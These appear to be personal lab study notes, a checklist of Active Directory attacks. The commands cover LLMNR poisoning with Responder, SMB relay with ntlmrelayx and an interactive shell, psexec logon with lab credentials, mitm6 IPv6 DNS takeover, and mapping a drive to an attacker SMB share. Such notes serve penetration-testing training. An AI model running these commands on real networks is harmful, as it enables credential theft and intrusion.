 
<h2> Initial Attack Vectors</h2>
- [ ] LLMNR Poisoning [[01 LLMNR Poising]]
```
sudo responder -I eth0 -dwP
```

```
\\<Attacker_IP>
```



<hr>


- [ ] Capturing NTLMv2 Hashes with Responder [[1.1 Cracking Captured Hashes]]
```
hashcat --help | grep NTLM
```


<hr>


- [ ] SMB Relay Attack [[02 SMB relay attack]]
```
nmap --script=smb2-security-mode.nse -p445 <ip_address>
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```


Swipe Entire Network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```


 configuration changes to the responder
 ```
 nano /etc/responder/Responder.conf
```

```
SMB = OFF
HTTP = OFF
```

responder
```
sudo responder -I eth0 -dwPv 
```


NTLM relay (i.e. make sure to add the IP address of the host in the target.txt)
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```

If want interactive shell
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```

```
nc 127.0.0.1 <port number>
```



<hr>


- [ ] Gaining Shell [[03 Gaining shells]]
```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```


<hr>


- [ ] IPV6 DNS Takeover via MIM6 [[04 IPv6 Attacks]]


Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```


```
mitm6 -d marvel.local
```

<hr>

- [ ] Passback Attacks
```
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
```




## SMB Sever

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

